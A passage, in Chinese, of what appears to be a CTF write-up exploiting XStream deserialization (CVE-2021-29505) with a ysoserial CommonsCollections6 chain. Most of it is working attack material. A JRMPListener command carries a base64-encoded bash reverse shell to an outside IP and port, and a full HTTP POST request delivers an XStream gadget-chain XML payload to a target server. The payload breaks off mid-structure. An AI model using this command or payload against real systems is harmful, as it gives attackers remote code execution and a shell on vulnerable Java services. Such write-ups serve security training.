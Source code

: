 抓包看一下，发现是xml格式传输

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217123607-tceskw8.png?imageSlim)​

CVE-2021-29505 配合 CommonsCollections的链子即可拿到shell

用ysoserial 选择 CommonsCollections6链子即可反弹成功

在vps上使用ysoserial的JRMPListener启动一个恶意的RMI Registry：

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDYuNzUuMzcvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

发包，打payload

```bash
POST /just_sumbit_it HTTP/1.1
Host: 39.99.159.98:8080
Content-Length: 3119
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: application/xml, text/xml, */*; q=0.01
Content-Type: application/xml;charset=UTF-8
Origin: http://39.99.159.98:8080
Referer: http://39.99.159.98:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
```